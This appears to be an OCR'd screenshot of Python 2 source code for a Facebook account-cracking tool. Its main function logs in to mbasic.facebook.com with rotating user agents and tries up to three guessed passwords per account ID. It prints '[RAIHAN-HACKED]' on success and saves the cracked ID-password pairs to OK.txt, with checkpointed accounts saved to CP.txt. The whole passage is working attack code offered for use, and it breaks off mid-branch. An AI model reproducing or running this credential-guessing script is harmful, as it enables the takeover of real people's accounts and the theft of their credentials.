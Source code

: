     def main(arg):
        user = arg
        (uid, name) = user.split('|')
        sharagent = random.choice(sua)
        session = requests.Session()
        session.headers.update({
            'Host': 'mbasic.facebook.com',
            'cache-control': 'max-age=0',
            'upgrade-insecure-requests': '1',
            'user-agent': sharagent,
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,*/*;q=0.8',
            'accept-encoding': 'gzip, deflate',
            'accept-language': 'id-ID,id;q=0.9,en-US;q=0.8,en;q=0.7' })
        host = 'https://mbasic.facebook.com'
        
        try:
            data = session.post('https://mbasic.facebook.com/login.php', data = {
                'email': uid,
                'pass': ps,
                'login': 'submit' })
            sp = data.content
            if 'mbasic_logout_button' in sp or 'save-device' in sp:
                print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps + '\x1b[0;97m'
                ok = open('OK.txt', 'a')
                ok.write(uid + '|' + ps + '\n')
                ok.close()
                oks.append(uid + ps)
            elif 'checkpoint' in sp:
                print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps + '\x1b[0;97m'
                cp = open('CP.txt', 'a')
                cp.write(uid + '|' + ps + '\n')
                cp.close()
                cps.append(uid + ps)
            else:
                data = session.post('https://mbasic.facebook.com/login.php', data = {
                    'email': uid,
                    'pass': ps2,
                    'login': 'submit' })
                sp = data.content
                if 'mbasic_logout_button' in sp or 'save-device' in sp:
                    print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    ok = open('OK.txt', 'a')
                    ok.write(uid + '|' + ps2 + '\n')
                    ok.close()
                    oks.append(uid + ps2)
                elif 'checkpoint' in sp:
                    print '\x1b[1;91m[RAIHAN-CHECKPOINT] ' + uid + ' | ' + ps2 + '\x1b[0;97m'
                    cp = open('CP.txt', 'a')
                    cp.write(uid + '|' + ps2 + '\n')
                    cp.close()
                    cps.append(uid + ps2)
                else:
                    data = session.post('https://mbasic.facebook.com/login.php', data = {
                        'email': uid,
                        'pass': ps3,
                        'login': 'submit' })
                    sp = data.content
                    if 'mbasic_logout_button' in sp or 'save-device' in sp:
                        print '\x1b[1;92m[RAIHAN-HACKED] ' + uid + ' | ' + ps3 + '\x1b[0;97m'
                        ok = open('OK.txt', 'a')
                        ok.write(uid + '|' + ps3 + '\n')
                        ok.close()
                        oks.append(uid + ps3)
                    elif 'checkpoint' in sp: